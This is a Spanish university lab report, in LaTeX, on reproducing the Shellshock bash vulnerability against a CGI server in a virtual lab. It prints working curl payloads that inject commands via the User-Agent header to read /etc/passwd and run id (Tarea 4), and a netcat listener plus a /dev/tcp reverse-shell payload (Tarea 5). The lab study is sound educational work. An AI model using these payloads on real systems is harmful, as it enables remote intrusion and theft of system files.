\documentclass[10pt,a4paper]{article}
\usepackage[utf8]{inputenc}
\usepackage[spanish]{babel}
\usepackage{amsmath}
\usepackage{amsfonts}
\usepackage{amssymb}
\usepackage{graphicx}
\usepackage{listings}
\usepackage[left=2cm,right=2cm,top=2cm,bottom=2cm]{geometry}

\lstset{
	frame = single,
	framexleftmargin = 15pt
}

\begin{document}

\begin{titlepage}
\title{{\Huge \textbf{Práctica 1 - Seguridad Informática}}}
\author{Pedro Tamargo Allué (758267) \and Juan José Tambo Tambo (755742)}
\date{\today}
\clearpage\maketitle
\thispagestyle{empty}
\tableofcontents
\listoffigures
\end{titlepage}

\section{Tarea 1: Experimentar con las funciones en Bash}

Para esta sección se ha creado una función \texttt{foo} con código extra y se ha ejecutado el siguiente código:\\

\lstinputlisting{listings/ataque_shell.sh}

Tras la ejecución de este código podemos observar como el intérprete \emph{BASH\_{}SHELLSHOCK} es vulnerable (Figura \ref{fig:tarea1_shellshock}) ya que ha ejecutado el código extra de la función \texttt{foo}.

\begin{figure}[h!]
\centering

\includegraphics[scale=0.6]{images/Tarea_1.png}
\caption{Intérprete afectado por el ataque \emph{shellshock}}
\label{fig:tarea1_shellshock} 
\end{figure}

Si repetimos el experimento utilizando el intérprete \emph{Bash} con la vulnerabilidad arreglada, se puede observar que al utilizar el código anterior no produce el mismo resultado que en el primer experimento (Figura \ref{fig:tarea1_bash_normal}).

\begin{figure}[h!]
\centering

\includegraphics[scale=0.6]{images/Tarea_1b.png}
\caption{Intérprete \textbf{NO} afectado por el ataque \emph{shellshock}}
\label{fig:tarea1_bash_normal} 
\end{figure}

\section{Tarea 2: Configuración de programas CGI}

Para la configuración de programas CGI se debe de crear un archivo con la extensión \emph{CGI} y escribir con \emph{bash shell}.
A continuación se puede observar un ejemplo básico de programa CGI que muestra "Hello world" si se accede a él desde cualquier máquina.
\lstinputlisting{listings/tarea2.cgi} 

Se debe insertar el script en \texttt{/usr/lib/cgi-bin} y cambiar sus permisos a 755 (ya que es ejecutable). Estas modificaciones deben ser hechas desde administrador, al ser un directorio que sólo se puede modificar con permisos de administración. 

Por último, se puede acceder al programa de manera remota de las siguientes maneras: 
\begin{itemize}
	\item Escribiendo en navegador la siguiente URL \texttt{http://\_{}IP\_{}MAQUINA/cgi-bin/progName.cgi}
	\item Utilizando el comando curl: \texttt{curl http://\_{}IP\_{}MAQUINA/cgi-bin/progName.cgi}
\end{itemize}

A continuación se puede observar el resultado al acceder al programa cgi de la máquina virtual de forma remota.
\begin{figure}[h!]
	\centering
	
\includegraphics[scale=0.6]{images/Tarea_2.png}
	\caption{Acceso a programa \emph{Hello world} de la máquina virtual }
	\label{fig:tarea2_hello_world} 
\end{figure}
\section{Tarea 3: pasar datos a Bash a través de las variables de entorno}

Para enviar un \emph{string} arbitrario al programa \emph{CGI} se ha utilizado el siguiente \emph{script}:\\

\lstinputlisting{listings/tarea3.cgi}

Este \emph{script} muestra todas las variables de entorno de los procesos ejecutados. Si accedemos a la dirección: \texttt{http://IP\_{}MV/cgi-bin/myprog2.cgi} se puede observar el resultado (Figura \ref{fig:tarea3_normal}).

\begin{figure}[h!]
\centering

\includegraphics[scale=0.6]{images/Tarea_3.png}
\caption{Resultado del acceso al programa cgi}
\label{fig:tarea3_normal} 
\end{figure}

Para modificar el código de una de las variables de entorno se va a utilizar la cabecera \emph{HTTP} \emph{User-Agent}. Esta cabecera se modificará mediante el siguiente comando:

\begin{lstlisting}
curl -A "Mi variable de entorno" http://192.168.56.106/cgi-bin/myprog2.cgi
\end{lstlisting}

Se puede observar que la respuesta del servidor contiene la variable de entorno \emph{HTTP\_{}USER\_{}AGENT} pero con un valor distinto al ejemplo anterior (Figura \ref{fig:tarea3_modificado}).

\begin{figure}[h!]
\centering

\includegraphics[scale=0.9]{images/Tarea_3_modificada.png}
\caption{Respuesta del servidor con la variable de entorno \emph{HTTP\_{}USER\_{}AGENT} modificada}
\label{fig:tarea3_modificado} 
\end{figure}

\newpage
\section{Tarea 4: Lanzamiento del Ataque Shellshock}

Para ejecutar un ataque \emph{shellshock} contra el servidor hay que utilizar lo explicado en el apartado anterior. Se va a proceder a inyectar código extra en la definición de una función utilizando la variable de entorno \emph{HTTP\_{}USER\_{}AGENT}.\\

Para robar el contenido de un fichero secreto del servidor se ha elegido el fichero \texttt{/etc/passwd} que no es visible para los usuarios externos al servidor (no hay forma de acceder a el vía \emph{HTTP}). Se va a utilizar el siguiente comando:

\begin{lstlisting}
curl -v \
-A "() { echo "HOLA"; }; echo Content-type: text/plain; echo; /bin/cat /etc/passwd;" \
http://192.168.56.106/cgi-bin/myprog.cgi
\end{lstlisting}

Tras esto observaremos que la respuesta del servidor es la reflejada en la Figura \ref{fig:tarea4_a}.

\begin{figure}[h!]
\centering

\includegraphics[scale=0.7]{images/Tarea_4a.png}
\caption{Respuesta del servidor con el fichero \texttt{/etc/passwd}}
\label{fig:tarea4_a} 
\end{figure}

Para robar el contenido del fichero \texttt{/etc/shadow} se ha ejecutado el siguiente comando con objetivo de obtener información acerca del usuario que ejecuta el servidor web:

\begin{lstlisting}
curl -v \
-A "() { echo "HOLA"; }; echo Content-type: text/plain; echo; /usr/bin/id" \
http://192.168.56.106/cgi-bin/myprog.cgi
\end{lstlisting}

El resultado de este comando (Figura \ref{fig:tarea4_b}) indica que el usuario que ejecuta el servidor no es \emph{root} si no que es un usuario servicio \emph{www-data} y por lo tanto no seremos capaces de robar el contenido del fichero \texttt{/etc/shadow}. Si intentamos realizar un ataque \emph{shellshock} con un \texttt{cat} hacia este fichero el servidor nos devolverá una respuesta vacía, es decir, no se puede abrir el fichero \texttt{/etc/shadow} (Figura \ref{fig:tarea4_c}).

\begin{figure}[h!]
\centering

\includegraphics[scale=0.7]{images/Tarea_4b.png}
\caption{Respuesta del servidor con la información del usuario del servidor web}
\label{fig:tarea4_b} 
\end{figure}

\begin{figure}[h!]
\centering

\includegraphics[scale=0.5]{images/Tarea_4c.png}
\caption{Respuesta del servidor al intentar robar el contenido de \texttt{/etc/shadow}}
\label{fig:tarea4_c} 
\end{figure}

\section{Tarea 5: Obtención de un Shell inverso a través de un ataque Shellshock}

El primer paso para la creación de un Shell inverso, es utilizar el comando \emph{netcat} (o nc) para escuchar una conexión en el puerto indicado. \\

\texttt{nc -l 9090 -v <- Escucha en el puerto 9090}

Este comando se bloquea esperando una conexión. Ahora, se debe conseguir ejecutar un bash en el equipo atacado para crear una conexión TCP con el puerto 9090 del equipo atacante y crear el shell inverso. El shell es el siguiente: 

\texttt{/bin/bash -i > /dev/tcp/\_{}IP\_{}MAQUINA\_{}ATACANTE/9090 0<\&1 2>\&1}

Explicación del comando anterior:\\

\begin{itemize}
	\item \texttt{/bin/bash -i ->} Con \emph{-i} se indica que el shell es interactivo
	\item \texttt{> /dev/tcp/\_{}IP\_{}MAQUINA\_{}ATACANTE/9090 ->} Se redirige salida de la máquina atacada a la conexión TCP de la máquina atacante.
	\item \texttt{0<\&1 ->} Se utiliza dispositivo de salida estándar como entrada estándar. Como la salida está redirigida a TCP, el shell obtendrá entrada de esta conexión.
	\item \texttt{2>{}\&1 ->} La salida de error se redirige a salida, es decir, a la conexión TCP.
\end{itemize} 

Al ejecutar el comando en la máquina deseada, este se conecta con el proceso \emph{netcat} de la máquina atacante, permitiendo el shell interactivo de forma remota, tal y como se muestra en la siguiente imagen.
\\

\begin{figure}[h]
	\centering
	
\includegraphics[scale=0.6]{images/Tarea_5.png}
	\caption{\emph{Reverse shell} realizado sobre una máquina virtual}
	\label{fig:tarea5_shell_inverso}
\end{figure}

\newpage
El problema de este ataque recae en conseguir ejecutar el comando en la máquina remota cuando no se tiene acceso físico a la misma. Para ello se utiliza el ataque \emph{Shellshock}, mediante el cual se pueden ejecutar comandos de forma remota.
Para poder realizar el ataque, se ejecutará el siguiente comando desde la máquina atacante, mediante el cual se conseguirá establecer un \emph{reverse shell} en la máquina indicada.\\

\begin{lstlisting}
curl -v \ 
-A "() { echo "HOLA"; }; echo Content-type: text/plain; echo; \ 
/bin/bash -i > /dev/tcp/_IP_MAQUINA_ATACANTE/9090 0<&1 2>&1;" \
http://_IP_MAQUINA_VICTIMA/cgi-bin/myprog.cg
\end{lstlisting}



\end{document}